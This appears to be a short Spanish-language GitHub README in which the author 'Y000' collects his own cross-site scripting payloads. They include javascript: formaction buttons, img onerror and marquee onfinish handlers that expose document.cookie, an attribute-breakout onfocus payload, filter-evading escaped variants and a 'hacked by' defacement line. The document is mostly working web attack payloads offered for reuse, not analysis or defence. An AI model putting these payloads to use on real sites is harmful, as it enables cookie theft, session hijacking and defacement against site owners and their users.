## Recopilación de todos los Payloads usados/creados por mi.


-1'<marquee>hacked by Y000</marquee>









### Xss dentro de un botón en form:

`<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_`

`<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>`



Img + Onerror

`<Img src="/" =_=" title=" onerror='prompt(document.cookie)'">`



```
<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>
```


<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>



"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>
